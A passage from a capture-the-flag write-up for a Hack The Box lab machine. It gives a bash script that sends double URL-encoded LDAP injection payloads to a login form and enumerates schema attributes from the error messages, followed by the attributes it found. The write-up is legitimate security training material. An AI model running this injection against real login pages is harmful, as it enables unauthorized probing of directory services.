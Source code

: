 
Armed with this insight and using a LDAP query such as `*)(cn=*`, I wrote a script to help me enumerate the valid attributes from the schema.

<div class="filename"><span>check.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.122
LIST=$1

function urlencode() {
  echo -n "$1" \
  | xxd -p \
  | tr -d '\n' \
  | sed -r 's/(..)/%\1/g'
}

function send_payload() {
  local query="*)(XXX=*"
  local payload="${query/XXX/$1}"
  local payload="$(urlencode $payload)"
  local payload="$(urlencode $payload)"

  curl \
    -s \
    -d "inputUsername=$payload" \
    -d "inputOTP=123456" \
    http://$HOST/login.php \
  | sed -r -e '34!d' -e 's/\s+<\/div>$//' \
  | rev \
  | cut -d ' ' -f1-2 \
  | rev \
  | tr -d '\n'
}

for attr in $(cat $LIST); do
  result=$(send_payload $attr)
  if [ "$result" == "Cannot login" ]; then
    echo "[+] Found: $attr"
  fi
done
```

Running the script against a LDAP attributes wordlist I found [here](https://github.com/droope/ldap-brute/blob/master/wordlists/attribute_names), this is what I got.

```
[+] Found: cn
[+] Found: commonName
[+] Found: gidNumber
[+] Found: homeDirectory
[+] Found: loginShell
[+] Found: mail
[+] Found: name
[+] Found: objectClass
[+] Found: pager
[+] Found: shadowLastChange
[+] Found: shadowMax
[+] Found: shadowMin
[+] Found: shadowWarning
[+] Found: sn
[+] Found: surname
[+] Found: uid
[+] Found: uidNumber
```

[1]: https://www.hackthebox.eu/home/machines/profile/172
[2]: https://www.hackthebox.eu/home/users/profile/13340
[3]: https://www.hackthebox.eu/